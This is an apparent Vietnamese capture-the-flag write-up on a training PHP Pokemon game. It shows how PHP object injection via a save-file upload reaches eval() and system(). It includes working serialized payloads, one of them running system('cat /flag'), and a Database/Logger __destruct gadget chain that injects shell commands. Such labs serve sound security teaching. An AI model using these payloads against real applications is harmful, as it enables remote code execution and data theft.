# PHP Object Injection

## __Khởi động:__
Kết nối vào đường link `localhost:12001` thì sẽ hiện lên giao diện vào game.  


Bắt đầu chơi thôi!  
Mới vào mình sẽ tạo tài khoản và đăng nhập vào game. Ban đầu mình chọn con pokemon để khởi đầu.  


## __Map 1: Nơi khởi đầu những chuyến đi__
  
Thật yên bình😂! Mình sẽ đi khám phá các chức năng hiện có trên màn hình.  
Ký hiệu  bên góc trái màn hình sẽ hiển thị menu gồm các chức năng `Back: Trở lại, View Info: Xem thông tin, Load Game: Tải game lên, Save Game: Lưu game về`.  


Mình sẽ đi test thử từng chức năng:  
- __View Info__: Hiển thị thông tin người chơi và pokemon sở hữu.  

- __Save Game__: Lưu 1 file với tên là `pokemon.sav`.  

- __Load Game__: Tải file game đã Lưu về. Khi tải lên sẽ hiển thị thông báo thành công hay chưa.  
 
- __Di chuyển__: Chỉ cần click vào các ô vuông trong màn hình giao diện là nhân vật sẽ di chuyển.


Khi di chuyển chúng ta sẽ vô tình đụng độ với các đối thủ và chúng ta sẽ chiến đầu hoặc rút lui.  


Và mình đã đánh nó bầm dập 🤣. Mình sẽ di chuyển đến nói chuyện với NPC gác cổng.  

Nói chung cũng chả có gì đáng lưu ý và click vào để qua Map 2 thôi.

## __Map 2: Chạm trán Boss 1__
- __Map__:  


Mình là dân chơi không sợ boss cứ thế đánh luôn.


Ây da có một sự chênh lệch sức mạnh không hề nhẹ ở đây và chắc chắn mình đánh không lại rồi nên mình "té" luôn😣.

Vậy làm sao để đánh thắng được Boss mà không cần phải đi farm mấy con nhỏ taaaa. Lúc này mình sẽ có lỗi là _PHP Object Injection_ sẽ thay đổi các thuộc tính Object.


Như ở Map 1 mình tìm hiểu các chức năng thì thấy có _Save Game_ và _Load Game_ sẽ có can thiệp vào dữ liệu.
- Đầu tiên với _Save Game_, thì lúc này Server sẽ lấy trạng thái dữ liệu hiện tại của người chơi và lưu về nên ta không đụng vào được gì &rarr; Bỏ qua phần Save game.
- Tiếp đến với _Load Game_, phần dữ liệu ở máy tính của mình đưa lên Server nên mình có thể kiểm soát được với nó &rarr; Sẽ làm được gì đó với chức năng này.

Như ở Map 1 mình có chụp lại thì nội dung dữ liệu lưu về là
```php
O:7:"Trainer":2:{s:4:"name";s:4:"dinh";s:7:"pokemon";O:7:"Pokemon":4:{s:4:"name";s:7:"rongcon";s:4:"type";s:10:"charmander";s:6:"health";i:190;s:6:"damage";i:26;}}
```
Mình học được đây là dữ liệu khi mình lưu game về thì Server sẽ thực hiện __Serialize__ các dữ liệu và nội dung ở trên là định dạng dữ liệu sau khi được chuyển hóa.  

Cách thuộc tính private cũng sẽ được Serialize theo cơ chế của PHP (không có ở các thuộc tính public) 

Nội dung trong file đó mình có thể sửa đổi vì nằm trong máy tính của mình mà. Vậy nội dung trong file đó là gì? 
- Các kí tự đầu tiên cho mỗi dòng là kiểu dữ liệu: O=Object, s=string, i=int
- Số tiếp theo là độ dài chuỗi mà chuỗi đó là tên cho kiểu dữ liệu ở trước. Như là: O:7:"Trainer" với Trainer là tên của Object với độ dài là 7 kí tự và tương tự cho các phần sau.  

Ở quá trình Load Game, thì chương trình sẽ đọc file và ___Unserialize___ để tái tạo lại trạng thái nhân vật.  


Vậy mình đã hiểu được định dạng file và cách hoạt động của ___Serialize___ và ___Unserialize___ đó rồi thì mình đi Hack thôi. Kiếm chỗ nào là sức mạnh của pokemon tăng nó hơn con Boss là được.  

Với `health:999999` và `damage:999999` đủ làm One Punch Man rồi, không sợ bố con thằng nào nữa. Rồi mình sẽ Load file này lên và kiểm tra dữ liệu. 

&rarr; Vậy mình đã hack sức mạnh thành công rồi. Đi đấm Boss 1 thôi.


Đánh thắng Boss 1 thì mình được Flag:
>CBJS{FAKE_FLAG_FAKE_FLAG}

## __Map 3: Chạm trán Boss 2__
Sau khi hành ra bã Boss 1 thì mình qua Map 3 tự tin gặp Boss 2.  


Oh no😱! Boss 2 giảm sức mạnh của mình xuống 1 hết rồi làm sao mà đánh đây.  


Nhưng mình là Hacker mà nhất định sẽ đánh thắng đươc con "giun" này.

Mình sẽ mò vào bên trong code ở map3
```php
case '3':
    if ($action == "new_battle") {
        $health = rand(70, 100);
        $damage = rand(10, 30);
        $wild_pokemon = new Pokemon($health, $damage);
        $_SESSION["enemy"] = $wild_pokemon;
        echo json_encode([$_SESSION["trainer"]->pokemon, $wild_pokemon]);
        die();
    } else if ($action == "fight") {
        if (!isset($_SESSION["enemy"])) {
            // Khi chưa khởi tạo đối thủ
            // Trả về mảng rỗng thể hiện không có sự đánh nhau nào
            echo json_encode([]);
            die();
        }
        $result = $_SESSION["trainer"]->fight($_SESSION["enemy"]);
        $_SESSION["enemy"] = null;
        echo json_encode($result);
        die();
    } else if ($action == "boss") {
        $health = rand(5000, 10000);
        $damage = rand(100, 300);
        $wild_pokemon = new Pokemon($health, $damage);
        $_SESSION["boss"] = $wild_pokemon;
        // Kĩ năng đặc biệt của Boss: giảm sát thương của kẻ địch về 1
        $_SESSION["trainer"]->pokemon->health = 1;
        $_SESSION["trainer"]->pokemon->damage = 1;
        echo json_encode([$_SESSION["trainer"]->pokemon, $wild_pokemon]);
        die();
    } else if ($action == "fight_boss") {
        if (!isset($_SESSION["boss"])) {
            // Khi chưa khởi tạo đối thủ
            // Trả về mảng rỗng thể hiện không có sự đánh nhau nào
            echo json_encode([]);
            die();
        }
        // Kĩ năng đặc biệt của Boss: giảm sát thương và máu của kẻ địch về 1
        $_SESSION["trainer"]->pokemon->health = 1;
        $_SESSION["trainer"]->pokemon->damage = 1;
        $result = $_SESSION["trainer"]->fight($_SESSION["boss"]);
        // Nếu đánh thắng 1 con boss, sẽ trả về FLAG ở header
        if ($_SESSION["trainer"]->checkAlive()) {
            header("Flag: " . getenv("FLAG2"));
        }
        $_SESSION["boss"] = null;
        echo json_encode($result);
        die();
    } else if ($action == "run") {
        $result = $_SESSION["trainer"]->run();
        if ($result == true)
            echo "You escaped";
        else
            echo "You failed to escape, and lost a little HP";
        die();
    }
    break;
```
Kĩ năng đặc biệt của Boss: giảm sát thương của kẻ địch về 1

Theo như mình xem trong file PHP đường dẫn `src/backend/libs/trainer.php`, tự nhiên có phần code nó lạ lắm
```php
class TrumCuoi extends Trainer
{
    public function fight(Pokemon $wild_pokemon)
    {
        return array(array(1, 0));
    }
}
```
Ở Trainer có class TrumCuoi kế thừa đến khi đấm nhau thì auto win mọi kèo. Vậy mình có thể biến đổi nhân vật của mình từ Trainer thành TrumCuoi.  
  

Và mình Load lên và đấm Boss 2 thôi!


>CBJS{FAKE_FLAG_FAKE_FLAG}

## __Map 4: Bắt gặp tiên nữ__


Lúc này đã không còn những con quái vật siêu to khổng lồ nữa rồi. Mình đi gặp tiên nữ và trò chuyện thôi.  


Tiên nữ hỏi về `secret` vậy thì mình phải RCE Server để lấy flag ở đâu rồi.  
Vào xem phần code của checkSecret
```php
<?php
$flag = file_get_contents("/flag");
if (isset($_GET["secret"])) {
    if ($flag === $_GET["secret"])
        die(header("Location: map5.html"));
echo "Wrong secret";
}
```
Vậy mình sẽ phải đọc `flag` là `secret` ở thư mục `root`.

Như ở Map 3 thì mình có thể đổi các Object cho nhân vật của mình vậy xem lại nhân vật của mình có thể làm những gì
```php
class Trainer
{
    public $name;
    public $pokemon;
    public function __construct($name, $pokemon_name, $pokemon_type)
    {
        $this->name = $name;
        $health = rand(GlobalConfig::BASE_HEALTH_MIN, GlobalConfig::BASE_HEALTH_MAX);
        $damage = rand(GlobalConfig::BASE_DMG_MIN, GlobalConfig::BASE_DMG_MAX);
        $this->pokemon = new Pokemon($health, $damage, $pokemon_name, $pokemon_type);
    }

    /** 
     *   Hàm xử lý việc đánh nhau của Pokemon, Pokemon sẽ tăng sức mạnh sau khi kết thúc trận đấu
     *
     *   @param Pokemon $wild_pokemon: Pokemon hoang dã mà người chơi gặp trong lúc di chuyển
     *   @return Array Cho thấy số máu của Pokemon qua từng vòng đấu, cột đầu tiên là máu Pokemon của người chơi, cột thứ hai là máu của quái
     *
     */
    public function fight(Pokemon $wild_pokemon)
    {
        $result = array();
        while ($this->pokemon->health > 0 && $wild_pokemon->health > 0) {
            $this->pokemon->health = $this->pokemon->health - $wild_pokemon->damage;
            $wild_pokemon->health = $wild_pokemon->health - $this->pokemon->damage;
            array_push($result, array($this->pokemon->health, $wild_pokemon->health));
        }
        $this->pokemon->levelUp();
        return $result;
    }


    /** 
     *   Kiểm tra Pokemon của người chơi có còn sống hay không
     *
     *   @return Boolean true khi còn sống, false khi đã chết 
     *
     *
     */
    public function checkAlive()
    {
        if ($this->pokemon->health < 0) {
            return false;
        }
        return true;
    }

    /** 
     *   Xử lý khi người chơi không muốn đánh nhau. 
     *   Tỉ lệ chạy trốn thành công tùy thuộc vào config
     *   Nếu chạy trốn thất bại, máu của Pokemon giảm 1/10
     *   @return Boolean true khi chạy trốn thành công, false ngược lại 
     *
     *
     */
    public function run()
    {
        $rate = rand(0, 100);
        if ($rate > GlobalConfig::RUN_CHANCE) {
            return true;
        }
        $this->pokemon->health = $this->pokemon->health - intval($this->pokemon->health / 10);
        return false;
    }

    public function __toString()
    {
        return json_encode($this);
    }
}
```
Có các method `__construct`, `fight`, `checkAlive`, `run`, `__toString`. Bây giờ mình sẽ kiểm tra xem các method có tên tương tự còn chạy ở các Object nào không?
- Method `fight()`: Chỉ ở class `Trainer` &rarr; Không làm được gì

- Method `checkAlive()`: Chỉ ở class `Trainer` &rarr; Không làm được gì     

- Method `run()`: Ở class `Trainer` và `Calculator`  

```php
class Calculator {
    public $expression;
    public function __construct($expr) {
        $this->expression = $expr;
    }

    public function run() {
        $result = eval($this->expression);
        return $result;
    }
}
```
&rarr; method `run()` ở class `Calculator` có thực thi hàm `eval()` (Hàm thực thi string như PHP code) với tham số là thuộc tính `$expression`. Vậy ta sẽ chuyển nhân vật của mình thành Object này đồng thời truyền sẵn thuộc tính là dòng code PHP (thuộc tính mình có thể kiểm soát được &rarr; `Untrusted Data`). Dùng chức năng `run` để chạy và "chạy".
- Method `__toString()`: ở class `Trainer` và `Pokemon` &rarr; Không làm được gì.  


### __Payload:__
Dùng chính code để Serialize ra file có nội dung của Object `Calculator`.
```php
class Calculator {
    public $expression;
    public function __construct($expr) {
        $this->expression = $expr;
    }

    public function run() {
        $result = eval($this->expression);
        return $result;
    }
}
$exploit = new Calculator("phpinfo();");
echo serialize($exploit);
```
```php
O:10:"Calculator":1:{s:10:"expression";s:10:"phpinfo();";}
```

Làm tương tự như map trước và Load lên đồng thời gặp đối thủ bất kì rồi sau đó `run` để thực thi code PHP.  


Vậy mình đã thực thi code thành công và sau đó mình lấy Flag thôi!

Payload:
```php
O:10:"Calculator":1:{s:10:"expression";s:20:"system('cat /flag');";}
```


>CBJS{FAKE_FLAG_FAKE_FLAG}

## __Map 5: Quay lại điểm bắt đầu__
  

Ở map này mình chẳng làm được gì cả thì làm sao để RCE đây? Nhưng tiếp đến mình đã học được bí thuật chạy được code mà không cần làm gì cả _"ẩn thân chi thuật"_🐱‍👤  
Lúc này nhân vật của mình không làm được gì nữa nên các method xem như vô dụng nên mình xem thử trong class `Trainer` có ___Magic Method___ nào không? (Magic Method là các method không cần gọi thì nó sẽ tự động chạy trong chương trình, như là: `__construct(): Khởi tạo Object khi new`, `__destruct(): Tự động hủy Object khi kết thúc chương trình`, `__toString(): Object chuyển thành String`,...)

Vậy bây giờ mình sẽ tận dụng Magic Method `__destruct()`. Tìm các class có method này  


À có class `Database` có method này và chú ý thêm trong method còn sử dụng thuộc tính `conn` (_Untrusted Data_) đồng thời thuộc tính còn gọi method của nó là `close()`. Mình tiếp tục đi tìm class có method `close()`.  


Quào! Ở method này lại còn sử dụng hàm `system()` với lệnh `rm` đối với thuộc tính `$filepath` (_Untrusted Data_) &rarr; __Command Injection__

### __Ý tưởng:__
- Mình sẽ tạo Object `Database` có thuộc tính `$conn` là Object `Logger` để khi `__destruct()` thực thi thì sẽ gọi đến method `close()`
- Khởi tạo Object `Logger` với thuộc tính `$expression` là 1 đoạn command để được đưa vào `close()` &rarr; `system()`

### __Payload:__
Như ở Map 4 mình tận dụng code để Serialize Payload luôn.  

```php
class Logger {
    public $filepath;
    public function __construct($filepath) {
        $this->filepath = $filepath;    
    }
}

class Database {
    public $conn;
    public function __construct($conn) {
        $this->conn = $conn;
    }
}

$logger = new Logger("; ls -la /");

$exploit = new Database($logger);
echo serialize($exploit);
```

```php
O:8:"Database":1:{s:4:"conn";O:6:"Logger":1:{s:8:"filepath";s:10:"; ls -la /";}}
```

Cuối cùng thì mình Load lên game thôi!  
  


Vậy mình đã RCE thành công!